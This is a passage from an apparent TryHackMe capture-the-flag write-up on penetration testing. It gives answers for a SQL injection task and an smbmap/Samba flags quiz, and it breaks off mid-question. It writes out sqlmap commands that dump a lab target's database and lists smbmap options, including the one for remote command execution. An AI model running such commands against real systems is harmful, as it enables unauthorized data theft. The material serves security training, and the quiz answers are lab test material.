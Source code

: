 	![sqlmap](../../assets/img/tryhackme/ccpentesting/ccpentest9.png)

2. How many types of sqli is the site vulnerable too?

	`3`

3. Dump the database.

	running `./sqlmap.py -u http://10.10.176.119 --forms --current-db --dump` gives us,

	![db dump](../../assets/img/tryhackme/ccpentesting/ccpentest10.png)

4. What is the name of the database?

	`tests`

5. How many tables are in the database?

	running `./sqlmap.py -u http://10.10.176.119 --forms --tables` gives us this, so `2`

	![num tables](../../assets/img/tryhackme/ccpentesting/ccpentest11.png)

6. What is the value of the flag?

	![yesss flag](../../assets/img/tryhackme/ccpentesting/ccpentest12.png)

## Task 19 - [Section 6 - Samba]: Intro

:thumbsup:

## Task 20 - [Section 6 - Samba]: smbmap

`smbmap -h`

1. How do you set the username to authenticate with?

	`-u`

2. What about the password?

	`-p`

3. How do you set the host?

	`-H`

4. What flag runs a command on the server(assuming you have permissions that is)?

	`-x`

5. How do you specify the share to enumerate?

	`-s`

6. How do you set which domain to enumerate?

	`-d`

7. What flag downloads a file?
